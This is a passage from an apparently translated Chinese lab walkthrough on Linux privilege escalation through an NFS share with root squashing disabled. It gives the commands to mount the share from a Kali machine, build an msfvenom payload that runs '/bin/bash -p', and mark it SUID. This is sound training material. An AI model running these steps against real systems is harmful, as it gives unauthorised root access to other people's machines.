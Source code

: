 ****在服务器上****

```
cat /etc/exports
```

**![](img/421da6b01a045576110a7207be2dce12.png)**

**请注意， **/tmp** 共享禁用了根挤压。**

**在您的 Kali 机器上，如果您还没有以 root 用户身份运行，请切换到 root 用户:**

```
sudo su
```

**使用 Kali 的 root 用户，在您的 Kali 机器上创建一个挂载点，并挂载 **/tmp** 共享(相应地更新 IP):**

```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

**仍然使用 Kali 的 root 用户，使用 **msfvenom** 生成一个有效载荷，并保存到挂载的共享中(这个有效载荷简单地调用/bin/bash):**

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

**仍然使用 Kali 的根用户，使文件可执行，并设置 SUID 权限:**

****在工作站上****

```
chmod +xs /tmp/nfs/shell.elf
```
